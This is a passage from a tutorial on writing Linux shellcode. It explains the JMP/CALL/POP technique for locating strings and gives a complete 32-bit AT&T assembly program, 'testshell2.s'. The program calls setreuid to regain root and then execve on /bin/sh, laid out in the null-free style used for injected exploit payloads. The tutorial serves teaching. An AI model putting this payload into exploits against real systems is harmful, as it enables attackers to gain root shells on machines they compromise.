 If you are going to write code more complex than just spawning a simple shell, you can put more than one .string behind the CALL. Here, you know the size of those strings and can therefore calculate their relative locations once you know where the first string is located. With this knowledge, let’s try creating a simple shellcode that spawn a shell. The main points here are the similar process and steps that can be followed to create shellcodes. The following is a simple program example to spawn a shell in assembly (AT&T/Linux).

```asm
#assembly (AT&T/Linux) for spawning a shell
####### testshell2.s ############

.section .data
.section .text
.globl _start

_start:
         xor %eax, %eax            #clear register
         mov $70, %al              #setreuid is syscall 70
         xor %ebx, %ebx            #clear register, empty
         xor %ecx, %ecx            #clear register, empty
         int $0x80                 #interrupt 0x80

         jmp ender

starter:
         popl %ebx                 #get the address of the string, in %ebx
         xor  %eax, %eax           #clear register
         mov  %al, 0x07(%ebx)      #put a NULL where the N is in the string
         movl %ebx, 0x08(%ebx)     #put the address of the string to where the AAAA is
         movl %eax, 0x0c(%ebx)     #put 4 null bytes into where the BBBB is
         mov $11, %al              #execve is syscall 11
         lea 0x08(%ebx), %ecx      #load the address of where the AAAA was
         lea 0x0c(%ebx), %edx      #load the address of the NULLS
         int $0x80                 #call the kernel

ender:
         call starter
       .string "/bin/shNAAAABBBB" #16 bytes of string...
```

Basically, before the call starter the memory arrangement should be something like this (Little Endian):

<img src="images/image058.png" /><br />
Figure 2: Memory arrangement for our assembly code.

